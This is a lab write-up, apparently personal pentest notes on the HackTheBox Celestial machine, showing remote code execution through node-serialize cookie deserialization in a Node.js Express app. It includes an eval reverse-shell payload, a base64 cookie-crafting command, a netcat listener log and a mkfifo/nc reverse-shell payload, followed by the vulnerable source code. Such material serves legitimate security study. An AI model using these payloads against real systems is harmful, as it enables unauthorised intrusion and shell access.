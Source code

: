 ```yaml
---
layout: post
title: Node JS Deserialization - Cookie
description: Node JS Deserialization - Cookie
summary: Node JS Deserialization - Cookie
tags: [nodejs,deserialization,foothold]
minute: 1
---
```

## Overview
Attacker can obtain RCE by injecting malicious javascript payload on cookies using `eval()` method.

## Environment Setup
* Vulnerable app provides base64 encoded cookie

![](/spindel/assets/Node%20JS%20Deserialization%20-%20Cookie/F384E27F-729C-441E-AB46-6202061374F3.png)

## Steps
* Verify that app is vulnerable to [[Insecure Deserialization]] by manipulating the cookie

![](/spindel/assets/Node%20JS%20Deserialization%20-%20Cookie/05887E32-3C3F-4611-8183-95D109A19F19.png)

* Open netcat listener on attacker machine and generate [nodejs reverse shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

```bash
➜  celestial python2 ~/data/tools/webapp/nodejsshell.py 10.10.14.13 4444
[+] LHOST = 10.10.14.13
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32[...redacted...],14,44,80,79,82,84,41,59,10))
➜  celestial
```

* Construct the payload by copying the generated `eval()` statement from command above to `username` variable of cookie

```bash
# this will put the base64 encoded output to your clipboard
echo -n '{"username":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,3
[...redacted...]184,44,80,79,82,84,41,59,10))}()","country":"rce","city":"rce","num":"100"}' | base64 -w0 | xclip -selection clipboard
```

* Paste the cookie in burp and wait for reverse shell connection

![](/spindel/assets/Node%20JS%20Deserialization%20-%20Cookie/9E4C6140-18E9-4211-9E1C-7F324D8C029F.png)

```bash
➜  celestial rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.85] 56596
Connected!
id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

## Alternatives
* Another payload you can use is via `child_process` module

```
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```

## Application Code
Here is the vulnerable app.

```javascript
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();

   // Vulnerable part of code
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```

## Reference
* [HTB Celestial](https://www.youtube.com/watch?v=aS6z4NgRysU)